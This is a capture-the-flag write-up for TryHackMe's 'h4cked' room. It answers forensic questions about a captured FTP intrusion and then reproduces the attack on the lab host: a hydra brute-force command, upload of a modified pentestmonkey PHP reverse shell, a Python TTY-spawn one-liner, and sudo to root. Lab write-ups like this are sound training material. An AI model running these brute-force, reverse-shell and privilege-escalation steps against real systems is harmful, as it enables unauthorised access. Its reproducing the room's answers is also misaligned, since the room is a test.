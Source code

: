 # h4cked room on [TryHackMe](https://tryhackme.com/room/h4cked)

![logo](https://i.ibb.co/Tvjg7t9/banner.png)

---

## Index
- [Analysis](#task-file-analysis)
- [Hacking back](#gain-access)

---

### Task File Analysis

Critical to use **follow streams** so that it is viable to analyse packets and their transmissions

![stream](./assets/stream.png)

What service is the attacker trying to access?

`ftp`

There is a very popular tool by Van Hauser which can be used to brute force a series of services. What is the name of this tool?

`hydra`

The attacker is trying to log on with a specific username. What is the username?

`jenny`

What is the user's password?

`password123`

What is the current FTP working directory after the attacker logged in?

`/var/www/html`

The attacker uploaded a backdoor. What is the backdoor's filename?

`shell.php`

The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the full URL?

 `http://pentestmonkey.net/tools/php-reverse-shell`

Which command did the attacker manually execute after getting a reverse shell?

`whoami`

What's the computer hostname?

`wir3`

Which command did the attacker execute to spawn a new TTY shell?

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Which command was executed to gain a root shell?

`sudo su`

The attacker downloaded something from GitHub. What is the name of the GitHub project?

`reptile`

The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called?

`rootkit`

---

### Gain Access

```bash
export IP=10.10.40.43
```

Brute forcing our way into the ftp server.

```bash
hydra -t 64 -l jenny -P ~/wordlists/passwords/rockyou.txt ftp://$IP
```

![hydra](./assets/hydra_brute.png)

Now that we have access, we can upload our own reverse-shell to gain access to the machine.

Modifying the default pentestmonkey php reverse-shell and putting that onto the ftp server so we can access it.

![ftp reverse shell](./assets/ftp_rev.png)

Followed by opening
```bash
open -j http://$IP/revshell.php
```

Gives us a shell we can access. Then we stabilise it using the same python code as before.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Followed by:
```bash
su jenny # We have jenny's credentials from earlier
sudo su
```

And we can now navigate to `/root/Reptile` and grab the flag!

_**Complete!**_

![](./assets/hacker.jpg)
